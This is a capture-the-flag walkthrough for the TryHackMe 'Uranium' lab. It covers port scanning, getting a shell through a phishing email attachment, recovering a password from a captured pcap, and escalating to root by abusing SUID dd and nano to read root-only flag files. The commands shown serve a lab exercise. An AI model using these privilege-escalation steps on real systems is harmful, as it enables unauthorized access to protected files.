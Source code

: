 # Uranium CTF 

![image](https://user-images.githubusercontent.com/5285547/130351555-c19838de-5d73-404a-9f39-58046e63a6e6.png)

Room Link: https://tryhackme.com/room/uranium

## Room Info

We have reached out a account one of the employees
hakanbey

In this room, you will learn about one of the phishing attack methods. I tried to design a phishing room (cronjobs and services) as much as I could.

Special Thanks to kral4 for helping us to make this room

Note: Please do not attack the given twitter account.

Machine IP: 10.10.208.199

Twitter Room info: 

![image](https://user-images.githubusercontent.com/5285547/130351618-ac5d9c8c-b93c-44a7-8b3e-f90f6528fc49.png)


## Enum

Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
25/tcp open  smtp
80/tcp open  http
```

## Port 25 SMTP 

Using the infomation from the room descrption, it was clear we needed to send an email with a filename called "application" this should then give us back a reverse shell. 

I made a python script to help with the email sending due to the TLS version not being supported in sendEmail in bash. 

Script: 

![image](https://user-images.githubusercontent.com/5285547/130352359-01b7f506-12d9-4b09-b1d8-3952cf997767.png)

# User

Looking around the system we see a file in logs that looks out of place. 

```
/var/log/hakanbey_network_log.pcap
```

Transfering this to my machine, i use wireshark to go over the file. 

Wireshark

![image](https://user-images.githubusercontent.com/5285547/130352595-0d944e8d-5665-4b46-822c-0b50d9fe90cd.png)

Using the password for the chat app we can get the password for hakanbey

![image](https://user-images.githubusercontent.com/5285547/130352637-256f577c-181c-4837-8aff-a105e7b03c5d.png)

## Hakanbey (sudo -l)

![image](https://user-images.githubusercontent.com/5285547/130352655-3fc2780f-429b-438d-9232-94db73adeb77.png)

This shows we can swap to karl using /bin/bash

```
sudo -u kral4 /bin/bash
```

## kral4 (email) 

Checking the email in /var/mail we can see a message to kral4

```
cat kral4 
From root@uranium.thm  Sat Apr 24 13:22:02 2021
Return-Path: <root@uranium.thm>
X-Original-To: kral4@uranium.thm
Delivered-To: kral4@uranium.thm
Received: from uranium (localhost [127.0.0.1])
        by uranium (Postfix) with ESMTP id C7533401C2
        for <kral4@uranium.thm>; Sat, 24 Apr 2021 13:22:02 +0000 (UTC)
Message-ID: <841530.943147035-sendEmail@uranium>
From: "root@uranium.thm" <root@uranium.thm>
To: "kral4@uranium.thm" <kral4@uranium.thm>
Subject: Hi Kral4
Date: Sat, 24 Apr 2021 13:22:02 +0000
X-Mailer: sendEmail-1.56
MIME-Version: 1.0
Content-Type: multipart/related; boundary="----MIME delimiter for sendEmail-992935.514616878"

This is a multi-part message in MIME format. To properly display this message you need a MIME-Version 1.0 compliant Email program.

------MIME delimiter for sendEmail-992935.514616878
Content-Type: text/plain;
        charset="iso-8859-1"
Content-Transfer-Encoding: 7bit

I give SUID to the nano file in your home folder to fix the attack on our  index.html. Keep the nano there, in case it happens again.

------MIME delimiter for sendEmail-992935.514616878--
```

This tells me a binary Nano is left in the home folder we can use with SUID.  
So I copy nano to my home folder as kral4

```
cp /bin/nano /home/kral4/nano
```

Then make a request to the index.html page. 

![image](https://user-images.githubusercontent.com/5285547/130352801-28694d94-47f7-49e3-ab18-e304a757cf9c.png)

## SUID

Scanning the local system we find a SUID binary that may help us here to edit the index.html page. 

```
find / -perm -u=s 2>/dev/null
```

At the end of the list we find "/bin/dd"

![image](https://user-images.githubusercontent.com/5285547/130369284-7735f420-3cdb-4f4c-82d8-ad5047d711b0.png)

Using this we can edit the index.html page. 

```
echo "testing" | dd of=/var/www/html/index.html
```

After editing the file we see the SUID bit has been applied to the nano Binary. 

![image](https://user-images.githubusercontent.com/5285547/130369358-6c117e8b-f385-4c45-8c7f-0dfcee3266f1.png)

Checking GTFObins again we can use the SUID from nano to get the last flags

![image](https://user-images.githubusercontent.com/5285547/130369372-ff561416-7eb9-43ab-af23-b5de60b0accc.png)


```
./nano /root/root.txt
./nano /var/www/html/web_flag.txt
```
